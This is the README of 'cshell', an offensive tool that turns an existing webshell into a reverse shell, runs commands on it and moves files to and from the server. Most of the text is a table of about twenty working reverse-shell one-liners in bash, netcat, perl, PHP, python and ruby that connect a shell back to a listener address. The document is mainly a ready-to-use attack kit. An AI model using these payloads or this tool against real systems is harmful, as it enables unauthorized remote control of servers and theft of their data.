 # CSHELL  
***  
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/)  [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/0z09e/cshell/LICENSE)  
  
***  
This script takes a working webshell as an argument and can perform the following operations  
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>  
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>  
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]  
  
## Install  
- From PIP library :   
  ```bash  
  pip3 install cshell  
  ```  
- From Github :   
  ```bash  
  git clone https://github.com/0z09e/cshell.git  
  cd cshell  
  sudo python3 setup.py install  
  ```  
    
### Usage  
- **Help Menu :**  
```bash  
$ cshell --help  
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...  
  
positional arguments:  
  {rev,web,lstnr}  
  
optional arguments:  
  -h, --help       show this help message and exit  
  --payloads       List all payload formats for rev  
  
web     Direct command execution on the webshell with error message  
rev     Reverse shell from a working webshell  
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]  
```

- **Getting a reverse shell from a webshell :**   
	- GET Method  : `cshell rev -i <Interface or IP> <Target URL with REV as command>`  
	- POST Method : `cshell rev -i <Interface or IP> -m POST -d <Post DATA in JSON format with REV as command> <Target URL>`  
- **Interacting with a webshell** :   
	- GET Method : `cshell web <Target URL with WEB as command>`  
	- Post Method : `cshell rev -m POST -d <Post DATA in JSON format with WEB as command> <Target URL>`  
- **Generating a payload** :   
	- `cshell lstnr -f <Format> -i <Interface or IP>  -p <Port> -f <Payload format>`  
  

### Custom Commands : 
- `help` - Help menu of custom commands  
- `clear` - Clear the screen  
- `exit` - Exit the shell  
- `upload` - Upload a file into the remote server  
- `download` - Download a file from the remote server  


### Payloads  
```bash  
$ cshell --payloads  
========================================================================================================  
Format-Name                     Payload  
========================================================================================================  
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196  
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1  
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done  
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5  
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1  
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f  
nc                              nc -e /bin/bash 127.0.0.1 1337  
nc-c                            nc -c /bin/bash 127.0.0.1 1337  
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash  
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'  
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'  
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'  
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'  
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'  
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'  
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'  
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")  
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
```  


